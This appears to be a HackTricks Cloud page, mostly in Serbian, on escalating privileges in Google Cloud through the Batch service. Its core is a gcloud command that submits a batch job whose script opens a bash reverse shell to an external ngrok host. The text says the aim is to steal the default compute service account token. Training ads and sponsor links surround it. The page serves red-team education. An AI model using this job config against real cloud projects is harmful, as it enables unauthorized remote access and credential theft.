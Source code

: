 # GCP - Batch Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Batch

Osnovne informacije:

{% content-ref url="../gcp-services/gcp-batch-enum.md" %}
[gcp-batch-enum.md](../gcp-services/gcp-batch-enum.md)
{% endcontent-ref %}

### `batch.jobs.create`, `iam.serviceAccounts.actAs`

Moguće je kreirati batch posao, dobiti reverznu ljusku i eksfiltrirati metapodatkovni token SA (podrazumevani compute SA).
```bash
gcloud beta batch jobs submit job-lxo3b2ub --location us-east1 --config - <<EOD
{
"name": "projects/gcp-labs-35jfenjy/locations/us-central1/jobs/job-lxo3b2ub",
"taskGroups": [
{
"taskCount": "1",
"parallelism": "1",
"taskSpec": {
"computeResource": {
"cpuMilli": "1000",
"memoryMib": "512"
},
"runnables": [
{
"script": {
"text": "/bin/bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/10396 0>&1'\n"
}
}
],
"volumes": []
}
}
],
"allocationPolicy": {
"instances": [
{
"policy": {
"provisioningModel": "STANDARD",
"machineType": "e2-micro"
}
}
]
},
"logsPolicy": {
"destination": "CLOUD_LOGGING"
}
}
EOD
```
{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
